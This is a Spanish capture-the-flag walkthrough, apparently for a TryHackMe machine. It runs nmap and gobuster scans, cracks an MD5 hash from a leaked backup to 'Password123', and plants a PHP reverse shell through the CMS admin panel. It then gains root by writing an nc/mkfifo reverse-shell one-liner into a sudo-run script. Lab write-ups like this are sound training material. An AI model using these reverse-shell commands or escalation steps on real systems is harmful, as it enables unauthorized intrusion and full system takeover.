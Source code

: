 Lo primero que haremos será lanzar un escaneo con nmap -sV -vv 10.10.18.129:

[img](img/img01.png)
 
Luego vemos con otro nmap: nmap -A -p- -T4  10.10.18.129
Que hay dos puertos abiertos: SSH and HTTP

[img](img/img02.png)
 
Luego haremos un fuzzing a la pagina con el comando: gobuster dir -u http://10.10.182.8 -w /usr/share/wordlists/dirb/common.txt

[img](img/img03.png)

Vemos que es interesante /content y nos vamos a la web y buscamos ip/content.

Hacemos otro fuzzing a /content : gobuster dir -u http://10.10.18.129/content -w /usr/share/wordlists/dirb/common.txt

[img](img/img04.png)
 
Vamos a ver ip/content/as si es interesante y vemos un login:

[img](img/img05.png)

Si vamos a http://10.10.18.129/content/inc/ veremos un index con contenido interesante:

[img](img/img06.png)
 
La parte más interesante en mysql_backup:

[img](img/img07.png)
 
Y si entramos dentro de la carpeta vemos que hay un backup: 

[img](img/img08.png)
 
Vemos que esta el usuario y la contraseña encriptada en MD5: (User: manager y contraseña: 42f749ade7f9e195bf475f37a44cafcb)

[img](img/img09.png)

Así que usamos este comando para poder romperla:
sudo hashcat -m 0 hash(nombre fichero donde esta el hash) /usr/share/wordlists/rockyou.txt                            

Y la rompemos:
Password123
Entramos al anterior login en el navegador: ip/content/as
Manager
Password123
Y entramos:

[img](img/img10.png)
 
Luego usamos esta reverse Shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
REVERSE SHELL: Cambiamos la ip ( DE NUESTRA MAQUINA KALI TUN0)  y el puerto y nos vamos al apartado ads de la página y pegamos la reverse Shell y le damos a done:

[img](img/img11.png)
 
Ahora nos vamos a la terminal y ponemos: 
rlwrap nc -lvnp 4444

Ahora nos iremos al navegador y pondremos ipmaquina/content/inc/ads:

[img](img/img12.png)
 
UPGRADEAR SHELL
Y le damos click a la Shell y ya tendremos la reverse Shell en nuestra consola, ahora la upgradeamos con el comando:
python3 -c 'import pty;pty.spawn("/bin/bash")'
o también con:
python -c 'import pty;pty.spawn("/bin/bash")';
export SHELL=bash
export TERM=xterm-256color

[img](img/img13.png)
 
Y ahí esta la flag del usuario: (/home/itguy/user.txt)

[img](img/img14.png)
 
Respuesta: THM{**************}

Ahora haremos sudo -l y nos saldrán varias cosas, tendremos que correr el script backup.pl

[img](img/img15.png)
 
Para ello nos vamos a esa ruta y leemos el fichero:

[img](img/img16.png)
 
Ahora haremos un nano !$ (del archivo /etc/copy.sh)
OTRA OPCIÓN HACER ESTO: 
www-data@THM: echo “rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc miipkali 5554(puerto) >/tmp/f” > /etc/copy.sh

EL COMANDO
echo ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <our IP> 4444 >/tmp/f' > /etc/copy.sh
Y cambiamos la ip por la nuestra (Kali) y otro puerto (5554) por ejemplo
Y ahora estar escuchando con netcat:

[img](img/img17.png)
 
Ahora hacemos un sudo /usr/bin/perl /home/itguy/backup.pl :

[img](img/img18.png)
 
Y ya se nos abrirá la Shell como root:

[img](img/img19.png)
 
Y nos vamos a /root y cat root.txt
[img](img/img20.png)
 
Respuesta:
